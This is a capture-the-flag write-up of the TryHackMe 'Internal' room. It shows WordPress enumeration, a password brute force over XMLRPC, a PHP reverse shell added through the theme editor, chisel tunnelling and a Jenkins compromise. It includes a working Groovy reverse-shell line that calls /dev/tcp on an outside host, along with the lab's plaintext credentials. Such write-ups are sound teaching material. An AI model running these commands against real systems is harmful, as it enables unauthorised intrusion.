# Internal

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)

**Difficulty:** Hard

**Category:** Wordpress + Linux

**Description:** Penetration Testing Challenge

**Scenario:** 



<details> 
<summary> <h2> TLDR (Spoilers) </h2></summary>
A wordpress website was running at `blog` endpoint on port 80 with xmlrpc enabled, where username `admin` was discovered through username disclosure and brute force gave the password. Through a reverse shell in WP Theme editor, a shell was obtained as `www-data`. Jenkins was found to be running internally on port `8080`, whose password was brute forced after port forwarding via `chisel`. A shell was obtained as `jenkins` in a docker container through reverse shell on Jenkins’s console script. Further enumeration led to root’s password in the `internal` server, thereby completing the pentesting.

</details>

---

## Initial Reconnaissance

Nmap scan:

```bash
nmap -A -v <IP> -p- -T5 -oN nmapresult.txt
```



Decided to do a full port scan for my first TryHackMe Hard room. Anyways, 2 ports open: `22, 80`. 

The website is the default Ubuntu Apache2 page. Nothing sneaky in the source code so I ran dirsearch to find hidden endpoints. 

```
dirsearch -u <URL> -w <PATH/TO/WORDLIST>
```



`/blog`  contains a template for a blog site. A login page exists at `/blog/wp-login.php`, which I kept in mind and checked out other endpoints. 



`/phpmyadmin.php` contains a login page for, well, phpmyadmin. 



Thats 2 login pages til now. 

`/wordpress` gives 404 in the blog site, while `/javascript` gives 403. 

Since its a wordpress site, I ran `wpscan`. First i checked for credentials themes and plugins.  

```
wpscan --url http://<IP>/blog --enumerate u,p,t --plugins-detection aggressive
```

Two things stood out. One was the existence of the user “admin” through `username disclosure` in error message. 



The other is XMLRPC being enabled.


XMLRPC is an API that allows other applications to communicate with wordpress using XML. It takes a POST request with an XML body like follows. 

```xml
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param><value>admin</value></param>
    <param><value>admin</value></param>
  </params>
</methodCall>
```

This gets the blogs of the user `admin`. The second “admin” is the password. If valid, it gives the blogs, if not it gives a 403 like below.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

So XMLRPC also does password validation. This makes it vulnerable to `brute force attacks`. 

Brute force password via XMLRPC: 

```xml
wpscan --url http://<IP>/blog --username admin --passwords /usr/share/wordlists/rockyou.txt --password-attack xmlrpc
```



The brute force was a success. Using this, I logged in.

## Login to WordPress

A very common authenticated exploitation on WordPress is to edit a theme file’s and inject a reverse shell. 

I did the following to upload the shell: 

1. Dashboard → Appearance → Theme Editor
2. Click on any theme. I used “Twenty Seventeen”, but any theme with a php file will work. 
3. Add reverse shell payload. I used [PentestMonkey's PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)


I started a listener, and went back to Appearance, but my browser froze. I checked my terminal, and I had gotten a shell. 



## Shell as www-data

First and foremost I upgraded the shell using Python and set env variable TERM to clear the terminal. 

```xml
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@internal:/$ export TERM=xterm
export TERM=xterm
www-data@internal:/$ ^Z
[1]+  Stopped                    nc -nlvp 4444

┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/internal]
└─$ stty raw -echo; fg
nc -nlvp 4444

www-data@internal:/$
```

Since PHPMyAdmin is also present, I checked WordPress’s config files in case database credentials are written. 



Bingo. I logged into PHPMyAdmin using these credentials. 

### Login to PHPMyAdmin

After logging in, I found the `wordpress` database. There was only one entry in `wp_users`, which was the admin with their password hash. I already have the plaintext so it was useless. 

I redirected my vision back to the shell.

Checking SUID binaries, I noticed an uncommon command: `/usr/bin/at`. 

I checked [GTFOBins](https://gtfobins.org/gtfobins/at/) and there is a way to spawn a shell. 



I tried it, but www-data is not allowed to run that command. Unfortunate.

I looked around a bit, but nothing interesting. I decided to check which ports are open and found some [localhost](http://localhost) only ports. 



Port 8080 seems to run jenkins from the `hudson` message. I wasnt sure so I checked processes.


And its owned by aubreanna too. If I get access to the Jenkins server, I get access to console, which allows `Remote Code Execution` through javascript. 

My next goal is to port forward 8080 to my machine and access the Jenkins server. `/var/www` was not writeable, and I couldnt add my SSH key there. So I couldnt use SSH and opted for `chisel`. 

### Chisel

Chisel is a tunnel over HTTP and secured by SSH. It is used in scenarios like this when a user needs to access a [localhost](http://localhost) only service in their machine. It runs in client-server mode where one instance acts as the server (on the attacker machine) and another as the client (on the victim).

I installed chisel on my machine, and transferred it to the victim machine through an http server. 

Then, I started the chisel server in my machine.


`--port` specifies what port to listen on, and `--reverse` specifies that this is a reverse connection i.e. another device (a client) will be initiating the connection. 

Then In the victim machine I initiated that connection to map the victim’s port 8080 to my port 8080. 


`192.168.253.246:4444` specifies my TryHackMe machine’s IP and the port I am listening on. With the `R` flag, chisel opens port 8080 on my machine, which is mapped to port 8080 of the victim’s machine. It basically means a reverse tunnel. 
Without the flag, chisel opens port 8080 on the victim, and someone can view that on their IP that they place instead of localhost. 

Port 8080 on my machine shows the Jenkins login page. 



I tried the previous credentials (`wordpress:wordpress123` and `admin:my2boys`) but they did not work. 

After a quick search, Jenkins uses `admin` as the default username, and automatically generates a password on its own. I decided to try and bruteforce it using `hydra` in case the victim forgot to change it. 



After some time, hydra gave me the password. 



## Login to Jenkins

Using the credentials, I was able to login. 



There are multiple ways to get a reverse shell using Jenkins. I chose to do it via the terminal. 
(Manage Jenkins → Script Console). 



It uses `Groovy Script`, which is built from Java. So to execute commands on the server, a syntax like `println "COMMAND".execute().text` is needed. 



The user is not aubreann, but at least it is a user who is probably more privileged than www-data. 

I used the command: 

```java
def cmd = ["/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.253.246/4445 0>&1"]
cmd.execute()
```

I used the mkfifo piped shell first, but it did not work. After a conversation with claude, it turns out Groovy’s `execute()` only runs a single binary, and therefore does not interpret shell pipes. Even after I wrapped the command in `/bin/bash -c`, it did not work. 

I tried some other shells and the command above worked. 



## Shell as jenkins

The environment is a docker container, from the `.dockerenv` in the root directory.


Jenkins had a home directory in `/var/jenkins_home`. It contains secrets, config files, and master keys, but I did not focus on it too much. I was more interested in escaping the container. 

What better way to check that using `linpeas`. I uploaded `linpeas` into the victim machine from my machine via a Python server to check for any escape vectors. 



linpeas found 5 CVEs in the kernel. I looked into each of them and none were related to direct container escapes. I continued looking and saw a file in `/opt`. 





Wowzers. I tried it on the internal server, and got root. 


With that, I was able to claim both user and root flags. 


The pentesting is completed. Ive been doing some HackTheBox boxes lately, which did not make this room feel as difficult. 

## Exploitation Chain

| Step | Action | Result |
| --- | --- | --- |
| 1 | `nmap -A -v <IP> -p- -T5` | Ports 22, 80 open |
| 2 | Fuzz for endpoints on port 80 | Found `/blog`, `/phpmyadmin`, `/javascript`, `/wordpress` |
| 3 | Run `wpscan` on `/blog` | User `admin` disclosed, xmlrpc enabled |
| 4 | Brute force `admin` password through xmlrpc | Credentials `admin:my2boys` |
| 5 | WP Dashboard → Appearance → Theme Editor → inject PHP reverse shell | Shell as `www-data` |
| 6 | Check open ports and processes | Jenkins on `127.0.0.1:8080`, owned by `aubreanna` |
| 7 | Chisel reverse tunnel to port forward 8080 | Jenkins accessible at `localhost:8080` on attacker |
| 9 | Brute force Jenkins login with default username `admin` | Credentials `admin:spongebob` |
| 10 | Jenkins → Manage Jenkins → Script Console → Groovy reverse shell | Shell as `jenkins` inside Docker container |
| 11 | Read `note.txt` in `/opt`  | Root password in plaintext + Root shell + Root flag |
